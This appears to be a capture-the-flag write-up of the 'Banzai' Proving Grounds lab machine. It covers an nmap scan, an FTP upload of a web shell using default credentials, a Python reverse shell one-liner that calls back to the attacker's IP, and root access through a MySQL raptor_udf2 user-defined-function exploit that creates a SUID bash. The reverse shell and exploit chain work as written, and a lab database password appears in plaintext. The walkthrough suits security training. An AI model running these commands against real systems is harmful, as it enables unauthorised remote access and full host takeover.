 First start with nmap scan 

`nmap -sC -sV -T4 -oN nmap.txt <IP> -p- -Pn`

```
# Nmap 7.93 scan initiated Tue Dec 27 18:39:51 2022 as: nmap -sC -sV -T4 -oN fullmap.txt -Pn -p- 192.168.218.56
Nmap scan report for banzai.offseclabs.com (192.168.218.56)
Host is up (0.20s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 ba3f6815288636497b4a84226815ccd1 (RSA)
|   256 2dec3f7831c3d0345e3fe76b77b56109 (ECDSA)
|_  256 4f615cccb01fbeb4eb8f1c897104f0aa (ED25519)
25/tcp   open   smtp       Postfix smtpd
|_smtp-commands: banzai.offseclabs.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
|_ssl-date: TLS randomness does not represent time
5432/tcp open   postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
8080/tcp open   http       Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: 403 Forbidden
8295/tcp open   http       Apache httpd 2.4.25 ((Debian))
|_http-title: Banzai
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: Hosts:  banzai.offseclabs.com, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 27 18:52:32 2022 -- 1 IP address (1 host up) scanned in 761.19 seconds
```

Nice got some interesting ports open, first start by enumerating port 21.

![image](https://user-images.githubusercontent.com/87468669/209782893-a27f371b-1316-42fb-886a-458855b50f0b.png)

Tried loggin ftp with default creds like admin:admin and it worked, and i was able to put a file in the ftp directory, next let's enumerate port 8295 which is http service.

![image](https://user-images.githubusercontent.com/87468669/209783288-9829763c-4517-418d-85c2-e2424a66689b.png)

Checking page source was nothing sus in it, let's burst hidden dirs...

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Banzai]
└─$ ffuf -u "http://192.168.108.56:8295/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403 -fs 0,23315 -e .txt,.php,.bak,.zip,.js 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.108.56:8295/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .txt .php .bak .zip .js 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
 :: Filter           : Response size: 0,23315
________________________________________________

img                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 201ms]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1036ms]
lib                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 641ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 191ms]
shell.php               [Status: 200, Size: 233, Words: 9, Lines: 12, Duration: 194ms]
contactform             [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 189ms]
```

Great as seen above the ftp server was connected to this web server's directory, we can see the shell file that was uploaded earlier.

![image](https://user-images.githubusercontent.com/87468669/209784201-bc5d2705-ea4f-4476-9cc9-2846af9424a5.png)

Checking the shell.php file i uploaded, i got an RCE, so let's get a reverse shell. Fire up ncat listener

![image](https://user-images.githubusercontent.com/87468669/209784622-9c7d56ac-d9fc-46be-b13c-3b4a65e18c2b.png)

reverse shell payload ready

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.108",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://user-images.githubusercontent.com/87468669/209784859-bc6ce987-f54d-4f41-b3bc-75f077c3ecd7.png)

ran the reverse shell payload.

![image](https://user-images.githubusercontent.com/87468669/209784972-9680b912-e5e3-4416-a57b-b95f95b10889.png)

Boom I'm in got a reverse shell as user www-data.

![image](https://user-images.githubusercontent.com/87468669/209786068-eff48675-a09e-4efa-9002-70728d64814f.png)

stabilize the shell and esc privs...

![image](https://user-images.githubusercontent.com/87468669/209823977-a637ede7-9c2a-43ae-b7f3-90b047c4e0f8.png)

found a config.php file in the /var/www directory, reading the content of it looks like a mysql server logs. First thing i did was check whether MySQL is running with root privileges, which can be done with the following command:

```
ps aux | grep mysql
```

![image](https://user-images.githubusercontent.com/87468669/209824296-5945dcd7-a9aa-4bb9-94b3-f59ea3f2ec25.png)

Next, finding the running MySQL version will reveal whether it may be affected by a privilege escalation vulnerability:

```
mysql -V
mysql -u root -p -e 'select @@version`
```

![image](https://user-images.githubusercontent.com/87468669/209825660-2901fe9a-ed4e-4724-967b-233276178d2f.png)

Got the version, This version of MySQL is affected by a vulnerability that allows users to run user-defined functions to execute commands in the context of MySQL, which in this case is root. 

![image](https://user-images.githubusercontent.com/87468669/209825720-cdf5a41b-251f-42d1-bb9b-572d8357c4d2.png)

Next login with the creds that was found in config.php `root:EscalateRaftHubris123`

![image](https://user-images.githubusercontent.com/87468669/209826294-91b3a9fd-164b-49c0-8512-903214c56891.png)

searched for exploit on searchsploit. next is to compile the exploit.

```
gcc -g -c 1518.c -o raptor_udf2.o -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

![image](https://user-images.githubusercontent.com/87468669/209826556-2dc63fab-8444-4570-a035-83cc1d9f1c57.png)

Now we've compiled the exploit, send the compiled exploit to target.

![image](https://user-images.githubusercontent.com/87468669/209826684-8a798083-ce4c-49b7-853c-b9b67c180af9.png)

Remember it's ftp we are using to transfer files. Now from within MySQL, the following commands can be used to create a new table containing the path to the shared object, copying the same file under /usr/lib/mysql/plugin and creating a “do_system” function that will

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/var/www/html/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

![image](https://user-images.githubusercontent.com/87468669/209827333-4ebbe7c6-056c-48eb-aca3-b18fd6165de3.png)

If the plugin directory used in the MySQL instance is not the default one, the following command can be used to display the current plugin directory, from within MySQL:

```
show variables like '%plugin%';
```

![image](https://user-images.githubusercontent.com/87468669/209827578-85c08937-4bed-4bd7-b0ec-c25a510064de.png)

Now getting root... The “select do_system” statement can then be used to execute commands as root:

```
select do_system('<command>');

select do_system('cp /bin/bash /var/www/html/shell && chmod +s /var/www/html/shell');
```

![image](https://user-images.githubusercontent.com/87468669/209833686-a475c295-c680-47a3-9276-fc79558b1873.png)

The same function can be used to create a SUID copy of the /bin/bash binary, which when executed with the -p flag, which allows to execute binaries as the owner of it, will grant root access to the host:

![image](https://user-images.githubusercontent.com/87468669/209834370-4fb38a8b-a07f-4d89-83d3-e1d0360b7b86.png)

Boom!!! we got root😎
